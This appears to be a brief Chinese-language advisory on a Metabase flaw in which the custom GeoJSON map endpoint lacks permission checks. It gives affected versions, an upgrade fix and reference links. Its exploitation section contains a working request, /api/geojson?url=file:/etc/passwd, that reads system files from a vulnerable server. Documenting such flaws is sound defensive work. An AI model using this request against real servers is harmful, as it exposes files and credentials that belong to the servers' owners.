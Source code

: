 ### 一 漏洞描述
metabase 是一个简单、开源的数据分析平台。  
在受影响的版本中，自定义 GeoJSON 地图（admin->settings->maps->custom maps->add a map）操作缺少权限验证，攻击者可通过该漏洞获得敏感信息。

影响范围：  
metabase version < 0.40.5  
metabase version >= 1.0.0, < 1.40.5  

### 二 漏洞利用
/api/geojson?url=file:/etc/passwd

### 三 漏洞修复
升级  
metabase version < 0.40.5  
metabase version >= 1.0.0, < 1.40.5  
https://github.com/metabase/metabase

> 参考链接  
> https://www.cnblogs.com/dxp5201/articles/16163572.html
